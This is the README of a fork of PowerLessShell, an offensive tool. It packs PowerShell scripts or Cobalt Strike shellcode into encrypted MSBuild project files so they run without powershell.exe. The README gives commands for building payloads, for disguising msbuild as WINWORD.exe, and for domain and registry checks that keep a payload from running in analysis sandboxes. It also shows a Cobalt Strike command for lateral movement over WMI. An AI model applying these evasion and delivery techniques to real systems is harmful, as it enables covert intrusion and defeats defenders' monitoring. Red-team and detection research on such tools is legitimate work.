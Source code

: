 # PowerLessShell

**PowerLessShell uses MSBuild.exe to execute PowerShell scripts and commands or raw shellcode without spawning powershell.exe.**

*This is a fork from https://github.com/Mr-Un1k0d3r/PowerLessShell. This fork contains documentation changes and payload and various functionality enhancements.*

### How it works

PowerLessShell reads in the desired input file, encrypts it with RC4 and then hex encodes it. After this an msbuild project template is populated with the payload and key to decrypt it. The rest of the magic is taken care of by the csproj template created by [Mr-Un1k0d3r](https://github.com/Mr-Un1k0d3r/PowerLessShell) which uses MSBuild's capability of running inline tasks in build files to execute the necessary code. This is then base64 encoded and stuck inside of a cmd file that has a bit of logic in it to decode the payload with certutil and launch it in the correct directory based on user context. Check the source code if you want any more details...

#### Templates

Templates are located in the repo under PowerLessShell/include:

- template-powershell.csproj
- template-shellcode.csproj

The script obfuscates variables from the template. Variables should be named with VAR + a number (i.e. "VAR1").

### Prerequisites

This fork uses [Click](http://click.pocoo.org/5/) for command line input.  To install it from PyPI:

```
pip install click
```



## Usage

### Payloads

Generate shellcode with Cobalt Strike, using `Attacks > Packages > Payload Generator` or for a stageless payload use `Attacks > Packages > Windows Executable (S)` select "Raw" and save the file somewhere convenient.

Alternatively you can supply an arbitrary PowerShell script to be run instead of shellcode. Generate or obtain these the usual ways.

### Help

```
$ ./PowerLessShell.py --help
Usage: PowerLessShell.py [OPTIONS] [PAYLOAD] [OUTFILE]

  Accepts a powershell script or raw shellcode, then encrypts with RC4,
  base64 encodes, and sticks into a csproj template to be executed as inline
  task on the client side. The csproj is then hex encoded and output as a
  cmd file to be launched on a target machine using wmi or schtask, etc. The
  command file uses certutil to decode the csproj, renames msbuild (if
  admin), and then launch the payload.

  [PAYLOAD] defaults to ./beacon.bin
  [OUTFILE] defaults to ./output/payload.cmd

Options:
  -k, --kind [ps|sc]  Powershell (ps) or shellcode (sc) input file, script
                      tries to autodetect based on extension (ps1=powershell,
                      bin=shellcode).
  --known-process     Disguise msbuild as a common Windows executable
  -d, --domain TEXT   Domain name to check for prior to running payload
  --csproj-out        Also output the csproj file
  --help              Show this message and exit.
```

### Example

If the file `beacon.bin` is in the current directory and the output directory `output` already exists, you can just run the script and everything should be detected.

```
$ ./PowerLessShell.py
PowerLessShell - More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team / blark's fork
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"

Using payload file beacon.bin, type shellcode
Not writing csproj to disk, if you want this use the --csproj switch
Writing ./output/payload.cmd
```

Otherwise you can do something like this:

```
$ ./PowerLessShell.py -k ps --csproj-out --known-process leetpayload.txt icq_updater.cmd
```

&lt;stdin&gt; and &lt;stdout&gt; work too:

```
$ cat payload.ps1 | ./PowerLessShell.py -k ps - stdin.cmd
$ ./PowerLessShell.py leetscript.ps1 - | xclip
```

**Notes**:

- In order to prevent the payload from running in an analysis environment the USERDOMAIN condition create a check to see if the user's domain matches the one provided before executing the payload. This is an optional parameter.

- Known process name will cause the msbuild.exe to be renamed to something like WINWORD.exe instead of a randomly generated string (see code for exact list of names).

  ​



## Screenshot

The following example is running the RC4 RAT https://github.com/Mr-Un1k0d3r/RC4-PowerShell-RAT without running a single instance of PowerShell

![PowerLessShell](https://ringzer0team.com/powershellless.png)



## MSBuild conditions

MSBuild conditions can be used to avoid running code in unintended (read: analysis) environments.

```
<Target Name="x" Condition="'$(USERDOMAIN)'=='RingZer0'">
```

The malicious code will only be executed if the current domain is "RingZer0"

Several conditions can be used to create more thorough execution check, for example:

```
<Target Name="x" Condition="'$(registry:HKEY_LOCAL_MACHINE\blah@blah)'>='0'">
```

See the following for more information:

- [MSBuild Conditions](https://msdn.microsoft.com/en-us/library/7szfhaft.aspx)
- [Property Functions](https://docs.microsoft.com/en-us/visualstudio/msbuild/property-functions).



## Cobalt Strike Aggressor script (wmi_msbuild.cna)

**By MrT-F**

*This script needs updating to match the new command line...*

cd into your cobalt strike client directory
```
cd /root/cobaltstrike
```
Clone this repository into folder PowerLessShell
```
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
```
Load the aggressor script in your Cobalt Strike Console
Laterally move just like other Cobalt Strike macros:
```
wmi_msbuild [target] [listener]
```



## Credit

Original code by Mr.Un1k0d3r RingZer0 Team 2017






